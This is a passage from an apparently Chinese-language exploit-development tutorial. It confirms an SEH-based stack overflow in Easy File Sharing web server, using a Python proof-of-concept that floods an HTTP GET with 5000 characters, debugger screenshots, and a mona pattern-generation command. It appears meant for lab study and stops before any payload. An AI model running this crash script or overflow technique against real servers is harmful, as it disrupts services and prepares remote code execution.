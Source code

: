 #### 确认漏洞

我们需要通过快速验证脚本（POC） 来确认该漏洞。 下面是我构造的 Python 脚本，目的是发送5000个字符到目标服务器上（数量不同覆盖到的SEH也不同，不过本质一样，这里用5000做测试），我给它起名 easyfileshring\_POC.py：

```python
import socket
import sys

host = str(sys.argv[1])  #第一个参数是目标ip
port = int(sys.argv[2])  #第二个参数是目标端口

a = socket.socket() 

print "Connecting to: " + host + ":" + str(port)
a.connect((host,port)) #建立连接

buff = 'a' * 5000  #发送内容

a.send("GET " + buff + " HTTP/1.0\r\n\r\n")

a.close()

print "Done..."

```

然后，我们打开kali运行该python脚本，

![Screenshot 2021-11-05 165420](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8cc94da24a17a6f85c28600f9303758673ca6f1f.jpg)

转动靶机上查看，

![image-20211220173032071](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d04bd90549450cd757fe97b3e71deb54dc5e1048.png)

发现程序停住了，因为在读取地址EAX+4C里的值时发生读取错误，因为EAX = 61616161（即我们POC中发送的“a”的ascill）不是一个合法地址，说明程序发生了栈溢出，导致EAX的值是溢出的字符，我们打开Immunity Debugger的SEH chain，

![Screenshot 2021-11-05 170129](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a184e5083d9dd29217b46632c57afef58c2a7397.jpg)

查看SEH chain，发现SEH被覆盖成了溢出值

![12143](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-16cd3e9844f7a78637e08071c038d7a2be7223e1.jpg)

这里我们再利用mona命令，生成5000个测试字符：

```php
!mona pattern_create 5000
```

![Screenshot 2021-11-05 173334](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-33a015aa825da4300e605ec87478c7f0a1cd5b34.jpg)

然后去打开生成的pattern.txt，复制生成的5000个测试字符，

![Screenshot 2021-11-05 173427](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-f3ab52536ad60225cc6cd7a97df2e84066c6b102.jpg)

